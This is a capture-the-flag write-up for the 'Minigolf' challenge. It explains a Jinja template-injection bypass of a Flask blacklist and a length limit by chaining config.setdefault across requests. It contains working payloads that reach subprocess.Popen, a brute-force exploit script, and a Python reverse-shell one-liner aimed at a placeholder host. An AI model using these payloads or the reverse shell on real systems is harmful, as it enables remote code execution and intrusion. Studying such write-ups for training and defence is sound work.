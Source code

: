 # Minigolf

### Description
Too much Flask last year... let's bring it back again.

### Code
```py
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

## Analysis

The vulnerability here is a jinja template injection in the flask server.
But there are a few restrictions which makes the exploiting harder.

1. We can't use the typical {{ }} Syntax and therefore can't print variables.
2. We dont have brackets which are used in most jinja exploits to get attributes from values to then find usable classes/functions.
3. We dont have underscore and therefore we cant simply use __class__ for example.
4. due to the usage of `html.escape` we can't use any strings like 'test' or "test" or \`test\`
5. We got a length limit of 69 chars which is quite small.

### Solutions:
#### First problem
For the first problem we can use other templating functionality. 
Like the {% %} Syntax where we can set variables or compare results with if, we could also run loops and so on.

#### Second problem
The second restriction can be avoided with the jinja filter `attr` which can be used like this:
`{%set x=variable|attr('subvariable')%}`
But the usage of the attr will greatly increase the size of the payload.

#### Third problem
The third one can be skipped if we don't ship the full payload in the txt field. We can access the variable `request.args.xxx` 
where `xxx` correlates to the given http get field which is applied in the request.
So we can do stuff like this:
```
http://localhost/?txt={%if request.args.x==request.args.y%}see{%endif%}&x=1&y=2
```
and we will see that if we both set `x` and `y` to an equal value we can see the text `see`
#### Fourth problem
The fourth problem is limiting but as long as we load all needed parameters from the args we will not have any problems with it.

#### Sixth problem
This is the last problem which needs to be addressed, but can only be fixed if we know how long our payload is with all 
given restrictions.

## Exploit

The first exploit can be crafted quite fast with the given solutions above:

```
{%set x=request.args%}{%set x=(a|attr(x.a)).mro()|last|attr(x.b)()|attr(x.c)(254)(x.d,shell=True)%}
```
where we got these as url parameters: `&a=__class__&b=__subclasses__&c=__getitem__&d=mkdir test`
if we remove the length restriction for this small test we can see we bypassed all blacklists and our exploits works.
> Note: that the id 254 must relate to the Popen class. You can find the index of this class by printing the subclasses 
> or bruteforcing it until it works typical between 0 and 500 but depends on the installed modules and so on.

But how should we fix the issue with the length even with the usage of the request args we are far above the 69 chars.
To be exact we are at 99 so 30 chars too much.

Now the real challenge kicked in, how to simplify the payload to fit the 69 chars? We tried long but did not succeed with any attempts.
So I choose to investigate if we can store variables over the current request. That would enable us to partial submit data and then build up on them

And I found a possible storage, the variable `config` does allow modification above the request.
This could be done over the function `setdefault` which sets a key and a default value for that key.
> Note: The function does not overwrite the key, so its a one trick on the selected key

This is how we can set variables:
```
{%set x=config.setdefault(request.args.x,request.args.y)%}
```
Http get fields: `&x=testkey&y=testvalue`

Now that we found a way to store variables we can focus on splitting our payload:
```
{%set x=request.args%}{%set x=(a|attr(x.a)).mro()|last|attr(x.b)()|attr(x.c)(254)(x.d,shell=True)%}
```
`&a=__class__&b=__subclasses__&c=__getitem__&d=mkdir test`

I came up with this parts which fit exact the 69 char limit:

***first we simplify the args access***
```
{%set x=config.setdefault(request.args.a,request.args)%}
```
This is done with the get fields: `a=z&b=__class__&c=__subclasses__&d=__getitem__&y1=y1&y2=y2&y3=y3`
the fields a, y1,y2,y3 are helper fields which will be used to set additional config variables.

***now fetch from config and store \_\_class\_\_ in y1***
```
{%set x=config%}{%set x=x.setdefault(x.z.y1,x|attr(x.z.b))%}
```

***now fetch y1 from config and store last mro in y2***
```
{%set x=config%}{%set x=x.setdefault(x.z.y2,x.y1.mro()|last)%}
```

***now fetch y2 from config and store \_\_subclasses\_\_() in y3***
```
{%set x=config%}{%set x=x.setdefault(x.z.y3,x.y2|attr(x.z.c)())%}
```

After these steps we have extended the config variable with a variable `y3` which now holds all subclasses.
Now we can simply iterate over them
```
{%set x=config.y3|attr(x.z.d)(999)(request.args.s,shell=True)%}
```
This is done with the get fields: `s=mkdir test`
> Note: change the index of Popen '999'

To make this process simpler and make the index of Popen guessable I created a simple script.
```python
import requests

url = 'http://minigolf.chal.imaginaryctf.org/'
reverse_host = 'xx.xx.xx.xx'
reverse_port = '13337'


def exploit(command, char_cache='f', char_help='g'):
    requests.get(url + '/', params={'txt': '{%set x=config.setdefault(request.args.a,request.args)%}',
                                    'a': char_cache,
                                    'b': '__class__',
                                    'c': '__subclasses__',
                                    'd': '__getitem__',
                                    char_help + '1': char_help + '1',
                                    char_help + '2': char_help + '2',
                                    char_help + '3': char_help + '3'})
    requests.get(url + '/', params={
        'txt': '{%set x=config%}{%set x=x.setdefault(x.' + char_cache + '.' + char_help + '1,x|attr(x.' + char_cache + '.b))%}'})
    requests.get(url + '/', params={
        'txt': '{%set x=config%}{%set x=x.setdefault(x.' + char_cache + '.' + char_help + '2,x.' + char_help + '1.mro()|last)%}'})
    requests.get(url + '/', params={
        'txt': '{%set x=config%}{%set x=x.setdefault(x.' + char_cache + '.' + char_help + '3,x.' + char_help + '2|attr(x.' + char_cache + '.c)())%}'})
    for i in range(1, 400):
        result = requests.get(url + '/',
                              params={
                                  'txt': '{%set x=config.' + char_help + '3|attr(config.' + char_cache + '.d)(' + str(
                                      i) + ')(request.args.s,shell=True)%}',
                                  's': command})
        if 'Internal Server Error' not in result.content.decode():
            print("last hit " + str(i))


reverse_shell = "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"" + \
                reverse_host + "\"," + reverse_port + \
                "));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
exploit(reverse_shell)
```

And we get a reverse shell to our defined server:
```
# ls -all
total 20
drwxr-xr-x 1 root root 4096 Jul 15 09:26 .
drwxr-xr-x 1 root root 4096 Jul 15 09:26 ..
-rw-r--r-- 1 root root  549 Jul 15 09:23 app.py
-rw-r--r-- 1 root root   29 Jun 30 05:41 flag.txt
-rwxr-xr-x 1 root root   41 Jul 15 09:25 run.sh
# cat flag.txt
ictf{whats_in_the_flask_tho}
```

So our flag is `ictf{whats_in_the_flask_tho}`.

-> cli-ish 17.07.2022